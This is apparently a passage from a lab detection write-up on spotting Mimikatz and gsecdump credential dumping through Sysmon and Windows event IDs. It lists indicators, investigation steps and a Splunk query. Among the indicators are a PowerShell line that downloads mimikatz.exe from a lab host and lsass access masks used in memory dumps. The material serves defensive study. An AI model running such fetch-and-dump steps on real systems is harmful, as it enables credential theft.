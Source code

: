     - 192.168.1.105:8080

Real-world examples:

pastebin[.]com/raw/<id> (common for PowerShell dropper hosting)

Dynamic DNS services: abc123.no-ip[.]org

5. Registry & Script Indicators

- PowerShell Event ID 4104:

    - System.Net.WebClient.DownloadFile

    - Invoke-WebRequest http://192.168.1.105:8080/mimikatz.exe

    - Base64-encoded payloads in PowerShell scriptblocks.

6. Process Access (Event ID 10)

- SourceImage:

    - C:\Users\labadmin\mimikatz.exe

- TargetImage:

    - C:\Windows\System32\lsass.exe

- GrantedAccess:

    0x1010, 0x1410 (typical for memory dump attempts).

# Detection

## Log Sources:

    Windows Event Logs (4688, 4104, 4103)
    Sysmon Event ID 1 Process Creation
    Sysmon Event ID 3 Network Connection
    Sysmon Event ID 11 File Creation
    Sysmon Event ID 10 ProcessAccess
    EDR/SIEM alerts


## Investigation Steps
- Find downloaded files (Sysmon Event ID 1)
- Find Created Files (Sysmon Event ID 11)
- Find Netowrk connections to external resources (Sysmon Event ID 3)
- Detect execution of downloaded file (Mimikatz.exe) (Sysmon Event ID 1)
- Detect Access to lsass from the malicious image (Sysmon Event ID 10)
- Check file reputation (Virustotal)

- Find Execution of gsecdump.exe
## Detection Query (Lab Demo):

### Detecting Process Creation (CMD to powershell) - Starting gsecdump.exe
`index="sysmon" EventID=1 CommandLine="*gsecdump.exe*" | table _time ParentCommandLine ParentImage, CommandLine, Image , User`
